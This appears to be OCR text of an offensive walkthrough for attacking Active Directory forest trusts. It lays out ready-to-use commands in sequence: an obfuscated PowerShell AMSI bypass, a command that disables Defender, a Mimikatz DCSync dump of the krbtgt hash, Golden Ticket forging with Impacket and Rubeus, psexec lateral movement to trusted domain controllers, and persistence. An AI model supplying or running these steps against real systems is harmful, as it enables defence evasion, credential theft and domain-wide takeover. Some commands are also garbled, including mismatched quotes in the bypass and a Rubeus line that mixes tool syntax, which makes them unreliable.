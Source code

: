 
Attacking **Active Directory Forest Trusts** and obtaining a **Golden Ticket** involves leveraging domain privileges to forge a **TGT (Ticket Granting Ticket)**, granting nearly unrestricted access within the trusted domains. Here's a step-by-step overview:

### Assumptions
- You have shell access on a **Domain Controller** (DC) in one domain.
- You need to bypass **AMSI** and **Defender** if necessary.
- You are aiming to compromise an **Active Directory Forest Trust** by forging a **Golden Ticket**.

### Step 1: Bypass AMSI and Defender
If **AMSI** and **Windows Defender** are enabled, you’ll need to bypass them before launching any offensive tooling. Common methods include:
  
#### AMSI Bypass
You can use PowerShell to bypass AMSI. Here's an AMSI bypass that disables its scanning.

```powershell
sET-ItEM ( 'V' + 'aR' + 'IA' + 'blE:1q2w3e4r5t' ).ValuE=([Ref].AsSembLY.GeTtyPe('Sys'+'tem.Man'+'agement.Autom'+'ation.A'+'m'S'+'iUt'+'Ils').GeTmEtHod('G'+'et_'+ 'Am'+'si'C'+'o'N'T'exT', ([type[]]@()))).invoke($null,$null);sET-ITEm ( 'V'+'aRIaBlE:1q2w3e4r5t' ).ValUE.Set_FiEld('a'+'m'+'si'+'In'+'i'T_F'+'LAG',0)
```

This code disables AMSI by reflecting its internal methods and setting its internal flag to 0.

#### Disable Defender (PowerShell)
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

You can temporarily disable **Windows Defender** real-time monitoring with the above PowerShell command.

### Step 2: Elevating Privileges to Dump Domain Admin Credentials
- If you have domain admin or a highly privileged account, you can dump the **krbtgt** hash from the target domain. This is needed to forge a **Golden Ticket**.
  
- Use **Mimikatz** (or similar tools like **Rubeus**) to dump the **krbtgt** hash from the DC. Assuming you already have a tool like **Sliver** or **Impacket** in place:

```powershell
mimikatz.exe
privilege::debug
lsadump::dcsync /user:krbtgt /domain:yourdomain.com
```

This will dump the **krbtgt** hash. Keep both the **NTLM** and **AES** hashes.

### Step 3: Trust Enumeration (Optional)
If the forest trust is in place, enumerate trusted domains using **BloodHound** or **PowerView** to confirm that the **krbtgt** hash applies across domains.

### Step 4: Create a Golden Ticket (Impacket)
Once you have the **krbtgt** hash, you can forge a **Golden Ticket** to impersonate any user in the domain.

#### Using Impacket `ticketer.py`
```bash
python3 ticketer.py -nthash <krbtgt_NTLM_hash> -domain-sid <SID> -domain <domain> <username>
```
- `<krbtgt_NTLM_hash>`: This is the NTLM hash of the **krbtgt** user you extracted.
- `<SID>`: This is the **Security Identifier** of the domain, which you can get from **BloodHound** or through enumeration.
- `<username>`: Specify the username you want to impersonate (e.g., Administrator).

Once the ticket is generated, you can inject it into your session.

#### Using Rubeus
Alternatively, use **Rubeus** to import and use the Golden Ticket:
```powershell
Rubeus.exe tgt::golden /domain:<domain> /sid:<sid> /user:<username> /rc4:<krbtgt_hash> /id:<RID> /target:<trusteddomain.com>
```

### Step 5: Lateral Movement
Now that you have a **Golden Ticket**, you can authenticate to the other domain in the forest trust.

- Use **psexec.py** from **Impacket** to execute commands on the trusted domain's DC or other servers:
  ```bash
  python3 psexec.py <target_domain>/<admin_user>@<target_dc> -k -no-pass
  ```

This gives you command execution rights on the trusted DC.

### Step 6: Perform Forest-Wide DCSync (If Required)
You can now perform a **DCSync** attack on the target domain to dump credentials from the trusted domain.

```powershell
mimikatz.exe
lsadump::dcsync /user:krbtgt /domain:trusted_domain.com
```

### Step 7: Maintain Persistence
Once you have credentials or hashes for trusted domains, you can pivot, forge **Golden Tickets**, or create **Silver Tickets** for persistence in the entire forest.

### Tools Involved:
1. **Impacket** (`ticketer.py`, `psexec.py`).
2. **Sliver**: Can serve as your payload delivery method if you're using shell access.
3. **Mimikatz** or **Rubeus**: For dumping and abusing credentials.
4. **BloodHound**: To understand trust relationships and delegation paths.


